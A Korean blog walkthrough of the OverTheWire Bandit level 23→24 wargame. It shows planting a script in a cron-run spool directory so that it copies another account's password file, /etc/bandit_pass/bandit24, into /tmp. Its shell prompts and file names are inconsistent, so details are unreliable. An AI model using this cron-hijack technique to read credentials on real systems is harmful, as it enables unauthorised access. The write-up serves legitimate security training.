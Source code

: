 ```yaml
---
title: "Bandit Level 23 → Level 24"
date: 2024-02-12
categories: [Wargames]
tags: [Wargames, Bandit]
---
```


## 문제
<https://overthewire.org/wargames/bandit/bandit24.html>

## 목표
다음 레벨의 패스워드를 찾는다.
> 시간 기반 작업 스케줄러 `cron`에서 일정한 간격으로 프로그램이 실행된다. `/etc/cron.d/` 에서 어떤 명령이 실행되고 있는지 확인해라.

## 풀이

```sh
bandit22@bandit:~$ cd /etc/cron.d/
bandit22@bandit:/etc/cron.d$ ls
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24       e2scrub_all  sysstat
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root  otw-tmp-dir
bandit22@bandit:/etc/cron.d$ cat cronjob_bandit23
```  

`/etc/cron.d/`로 이동해서 파일 목록을 확인해보니 `cronjob_bandit22`라는 파일이 보인다.  

&nbsp;  

```sh
bandit21@bandit:/etc/cron.d$ cat cronjob_bandit22
@reboot bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
* * * * * bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
```

파일의 내용을 보니 프로그램 부팅시, 매분 매초 `/usr/bin/cronjob_bandit23.sh` 파일을 `/dev/null`로 버린다고 한다.

&nbsp;  

```sh 
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

파일의 내용을 확인해보면 `/var/spool/bandit24/foo`에 있는 모든 스크립트들 중 소유자가 `bandit23`인 경우 실행하고 60초 뒤에 모든 파일을 삭제한다고 한다.  

&nbsp;  

60초 안에 스크립트를 작성하기는 힘드니 새 디렉토리에 패스워드를 알아내는 스크립트를 작성한다.  

```sh
bandit23@bandit:/etc/cron.d$ mkdir /tmp/new_dir
bandit23@bandit:/etc/cron.d$ cd /tmp/new_dir
bandit23@bandit:/tmp/new_dir$ vi Password.sh
```

```sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/Password
```  

&nbsp;  

파일을 읽을 수 있게 권한을 추가해준 뒤 `/var/spool/bandit24/foo`로 파일을 복사해준다.  

```sh
bandit23@bandit:/tmp/new_dir$ chmod +x Password.sh
bandit23@bandit:/tmp/new_dir$ cp Password.sh /var/spool/bandit24/foo/Password.sh
```  

&nbsp;  

`/tmp/Password`에 저장된 패스워드를 확인한다.  

```sh
bandit23@bandit:/tmp/new_dir$ cat /tmp/Password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```  

&nbsp;  

**Password : VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar**

## 배운 것

- 쉘 스크립트를 작성하는 방법
